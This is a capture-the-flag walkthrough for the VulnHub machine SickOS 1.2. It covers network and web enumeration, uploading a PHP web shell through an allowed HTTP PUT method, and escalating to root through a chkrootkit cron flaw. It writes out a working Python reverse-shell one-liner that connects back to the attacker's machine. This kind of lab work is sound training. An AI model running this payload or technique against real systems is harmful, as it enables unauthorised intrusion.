

# GETTING STARTED

To download **sickos 1.2**, click on the link given below:

https://www.vulnhub.com/entry/sickos-12,144/

> [!NOTE] 
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). This is just my take on pwning the machine and you are welcome to choose a different path.

# RECONNAISSANCE

I began the hack by scanning my network to find the target IP using **nmap**.

```bash

┌──(root㉿kali)-[~/ctf/sickos2]
└─# nmap -sn 192.168.1.0/24                                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 00:26 EDT
Nmap scan report for RTK_GW (192.168.1.1)
Host is up (0.0015s latency).
MAC Address: F8:C4:F3:D0:63:13 (Shanghai Infinity Wireless Technologies)
Nmap scan report for ubuntu (192.168.1.4)
Host is up (0.00037s latency).
MAC Address: 00:0C:29:05:85:91 (VMware)
Nmap scan report for kali (192.168.1.13)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 7.53 seconds
```

I then scanned the ports of the target (*192.168.1.4*).



# FOOTHOLD

Since the target had port 80 open, I accessed it on the web and also viewed its source for anything interesting.





However, I found nothing of use. So I fuzzed for interesting directories and files using **dirb**.



I then visited the */test/* directory.



I then performed a **nikto** scan on this path to see if I could find anything juicy.



Here, I found out that the server allowed the **PUT** method, which meant I could upload a PHP file for a reverse shell. I validated this using **curl**.



Now that this was confirmed, I uploaded a **PHP** code to get remote code execution.

I referred to this article:- https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html



Hence, I achieved command execution. I then used this to obtain a reverse shell. The payload I used is:

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.13",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```





Hence I got initial access on the system.



# PRIVILEGE ESCALATION

I downloaded the [**linux smart enumeration**](https://github.com/diego-treitos/linux-smart-enumeration) script to assist with privilege escalation.





Here, I discovered that we could modify the cron job.





I then used **searchsploit** to examine available exploits for all programs and found one for **chkrootkit**.



I checked the version of this script to determine if the available exploits would be applicable.



I then downloaded the text file from **Searchsploit** and reviewed it to understand how I could escalate my privileges.





Hence, I followed these steps to gain root access.





I then waited for a few minutes and switched the user to root.



I then captured the final flag.



# CLOSURE

Here's a brief summary of how I captured the root flag:
- I uploaded a PHP file for remote command injection in the _/test/_ folder.
- I used this remote code execution (RCE) to obtain a reverse shell.
- I then inspected the `cron.daily` folder and exploited the **chkrootkit** vulnerability to gain root access.
- Finally, I captured the flag from the _/root_ directory.



That's it from my side. Until next time:)

---